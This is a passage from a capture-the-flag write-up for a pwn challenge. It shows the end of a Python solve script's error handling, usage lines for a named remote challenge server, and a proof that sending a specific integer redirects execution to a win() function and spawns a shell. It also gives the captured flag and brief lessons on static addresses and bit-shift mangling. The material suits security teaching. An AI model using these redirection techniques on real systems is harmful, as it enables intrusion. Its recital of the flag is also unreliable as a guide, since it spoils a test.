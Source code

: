 ```python
    tail = safe_recv(timeout=1)
    if tail:
        log.info("Final bytes from server:\n" + tail.decode(errors='ignore'))
    raise SystemExit(1)
except Exception as e:
    log.warning("Timeout or probe failed: " + repr(e))
    tail = safe_recv(timeout=1)
    if tail:
        log.info("Recent bytes:\n" + tail.decode(errors='ignore'))
    raise SystemExit(1)


except Exception:
log.exception("Unhandled exception - dumping final bytes")
tail = safe_recv(timeout=1)
if tail:
log.info("Final bytes:\n" + tail.decode(errors='ignore'))
sys.exit(1)
```

# usage

local: python3 solve.py

remote (two-arg): python3 solve.py challenge.secso.cc 8001

remote (explicit keyword): python3 solve.py REMOTE challenge.secso.cc 8001

# proof

after sending the decimal 1074918912 the program jumps into win and spawns /bin/sh.

reading the flag yields:
### K17{d1dn7_kn0w_u_c0u1d_b3_4ddr355_0f_w1n_m4ny_y34r5_0ld}

# Takeaways

no PIE means function addresses are stable; you can lift them straight from ghidra/nm.

sometimes the program will mangle your integer before using it (here, a right shift by 8). gdb symptoms (jumping to a truncated address like 0x4011) are a great hint to re-check bit operations.

even with stack canary and NX, you can still win by steering an indirect call/jump to a fixed win() gadget.

